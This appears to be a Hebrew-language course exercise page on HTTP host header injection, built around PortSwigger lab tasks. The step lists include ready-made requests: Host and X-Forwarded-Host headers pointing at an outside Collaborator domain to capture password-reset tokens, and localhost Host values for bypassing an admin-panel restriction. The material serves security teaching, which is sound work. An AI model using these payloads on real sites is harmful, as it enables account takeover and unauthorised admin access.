

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/3 - הזרקות מתקדמות/3.5 - הזרקת כותרות/3.5 - הזרקת כותרות - תרגיל/index.html · generator: mkdocs

# הinjection headers - תרגיל

## תרגיל 1 - poisoning איפוס סיסמה

PortSwigger Lab: **Basic password reset poisoning**

### משימות

1. גשו לאפליקציה ומצאו את פונקציית איפוס הסיסמה
2. שלחו בקשת איפוס סיסמה רגילה ובדקו את הבקשה ב-Burp
3. שנו את הheader של Host לכתובת Burp Collaborator:

```http
POST /forgot-password HTTP/1.1
Host: YOUR-COLLABORATOR-ID.oastify.com
Content-Type: application/x-www-form-urlencoded

username=carlos
```

4. בדקו ב-Collaborator אם הגיעה בקשה עם ה-token
5. השתמשו ב-token כדי לאפס את הסיסמה

## תרגיל 2 - poisoning איפוס סיסמה עם headers נוספות

PortSwigger Lab: **Password reset poisoning via middleware**

### משימות

1. גלו ש-Host header רגיל לא עובד
2. נסו headers חלופיות:

```http
X-Forwarded-Host: YOUR-COLLABORATOR.oastify.com
X-Host: YOUR-COLLABORATOR.oastify.com
X-Forwarded-Server: YOUR-COLLABORATOR.oastify.com
Forwarded: host=YOUR-COLLABORATOR.oastify.com
```

3. מצאו איזו header עובדת
4. חלצו את ה-token והשלימו את המעבדה

## תרגיל 3 - bypass בקרת גישה עם Host Header

PortSwigger Lab: **Host header authentication bypass**

### משימות

1. מצאו פאנל ניהול חסום
2. נסו לשנות את ה-Host header ל-localhost:

```http
GET /admin HTTP/1.1
Host: localhost
```

3. אם לא עובד, נסו וריאציות:

```http
Host: 127.0.0.1
Host: target.com:80@127.0.0.1
Host: 0.0.0.0
Host: [::1]
```

4. גשו לפאנל הניהול ובצעו את הפעולה הנדרשת

## תרגיל 4 - SSRF מבוסס Host Header

PortSwigger Lab: **Routing-based SSRF**
